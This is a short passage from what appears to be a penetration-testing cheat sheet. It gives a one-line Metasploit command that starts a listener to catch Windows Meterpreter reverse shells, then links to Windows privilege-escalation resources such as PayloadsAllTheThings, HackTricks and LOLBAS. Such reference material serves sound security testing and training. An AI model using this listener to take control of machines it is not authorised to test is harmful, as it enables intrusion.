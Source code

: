 - quick msfconsole listener :

```bash
msfconsole -x "use exploit/multi/handler;set LHOST <ip>;set LPORT <port>;set payload windows/meterpreter/reverse_tcp;run"
```

### Useful Resources :

- [Potatoes_Windows_Privesc](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [windows-enumeration](https://nored0x.github.io/red-teaming/windows-enumeration/)
- [msfveom-cheatsheet](https://liberty-shell.com/sec/2018/02/10/msfv/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)
- [lolbas-project](https://lolbas-project.github.io/)
